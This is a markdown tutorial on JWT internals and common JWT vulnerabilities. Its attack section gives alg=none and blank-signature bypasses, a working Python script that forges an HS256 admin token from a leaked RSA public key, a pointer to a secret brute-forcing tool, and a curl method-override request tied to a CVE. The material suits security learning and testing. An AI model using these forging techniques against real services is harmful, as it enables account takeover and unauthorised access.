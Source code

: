 # Hacking Json Web Tokens

### What is JWT (Json Web Token)

After Login we get a session ID. Then the server checks that session id and which user contains it.
Then provides data by fetching from database

Now a days modern architectures are changed. Theere are multiple web servers managed by a 
single load balancer. So what if one clinet got his session id from server A
and the next request was sent to server B. Server won't be able to identify that user.
That's why JWT was intrduced.

Instead of fetching all data from database we can store it in user's local storage.
With a expiration time using JWT. It is signed with server signature so that user can't change the data inside the token without knowing the secret key.


### How JWT Works
- User Logged In 
- Now Server Will Fetch User's Data From Databse
- Then Server Creates A Secure JWT Token. And Assigns To The User.
- Now From The Client Side The Entire Data Will Be Transferred By Authorization Header to the server
- It is transferred in Base64 Encoded Format

## JWT Build Algorithm

It is a Json Format Based Token Which Contains 3 Parts. 
Encoded in base 64 Separated by .
- Header
- Payload
- Signature

Ex : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

Header : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
```python
base64enc[{
"algo":"HS256",
"typ":"JWT"
}]
```
- alg - which algorithm is used to create the signature Ex : HS256,RS256,PS256

Payload : eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ
```python
base64enc[{
"firstname:"sss",
"lastname":"tmss",
"userid":"234"
}] 
```

Signature : SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```python
HMACSHA256{
base64enc(header).base64enc(payload).secret(key)
}
```
- Request Recieved To Server 
```json
jwt : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```
- Server Took Payload and header 
- Created A Hash Using Secret Key
- Verfied If Recieved Secret Key Is The Same What He assigned to user when he logged in
### Seccurity Conserns In JWT

- Confidential Data Stored In JWT
- No Encryption Used In Transport Layer /On Wireshark 
- JWT Hijacking If Stored In Cookie
- Algo = None // Don't Validate The Signature
- Secret Key Bruteforcing


### Bugs
1 - None Algorith Attack
Change algo to none 
```python
{
  "alg": "None",
  "typ": "JWT"
}
{
  "alg": None,
  "typ": "JWT"
}
```
And try to perform action
Change algo to none + Remove All Data from Signature field
```python
{
  "alg": "None",
  "typ": "JWT"
}
# Remove Entire Signature Part Or Leave It Blank
```
2 - Algo Change
RSA256 - Uses public key to verify token if we have that public key exposed we might be able to do this
Create own HS256 Signed JWT With Exposed public key
now The Server will Think The public Key is secret key and logs you in
```python
### JWT Token Generater
import hmac
import hashlib
import base64

#Paste the file with the key 
file=open('public.pem')

key = file.read()

#Paste your header and payload here
header = '{"alg":"HS256"}'
payload = '{"name":"admin"}'

#Creating encoded header
encodedHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodedHeader = str(encodedHBytes, "utf-8").rstrip("=")

#Creating encoded payload
encodedPBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(encodedPBytes, "utf-8").rstrip("=")

#Concatenating header and payload
token = (encodedHeader + "." + encodedPayload)

#Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"),token.encode('utf-8'),hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

print(token + "." + sig)
```
How we found .pem in real senario. We find in leaking through jwk.json
```python
https://{yourDomain}/.well-known/jwks.json
```
or waybackurl's jwk.json file or .pem url

3 - Change Signature section complete 
Or Leave it blank

4 BruteForce HS256 
[jwtbrute](https://github.com/jmaxxz/jwtbrute)

## CVE-2023-30845
```bash
curl http:example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' \ 
-H 'Content-Type: application/json' --data '{"username":"xyz"}'
```
